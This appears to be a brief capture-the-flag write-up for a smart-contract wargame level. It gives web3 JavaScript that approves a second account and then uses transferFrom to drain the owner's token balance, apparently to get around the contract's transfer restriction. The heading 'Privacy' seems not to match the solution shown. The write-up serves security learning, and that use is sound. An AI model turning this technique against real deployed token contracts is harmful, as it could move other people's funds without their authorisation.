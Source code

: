 # Level 12 - Privacy

First, make sure that you approve an address with the given amount:

```js
await contract.approve("address of approved account", await contract.balanceOf("owner address"))
```

After that, build a transaction with the ```transferFrom()``` function and call it from the approved account:

```js
let payload = web3.eth.abi.encodeFunctionCall({
    name: 'transferFrom',
    type: 'function',
    inputs: [{
        type: 'address',
        name: 'sender'
    },{
        type: 'address',
        name: 'recipient'
    },{
        type: 'uint256',
        name: 'amount'
    }]
}, ["owner address", "approved address", await contract.balanceOf("owner address")]);
// call the next transaction from the approved address!
await web3.eth.sendTransaction({
    to: "contract address",
    from: "approved address",
    data: payload
})
```
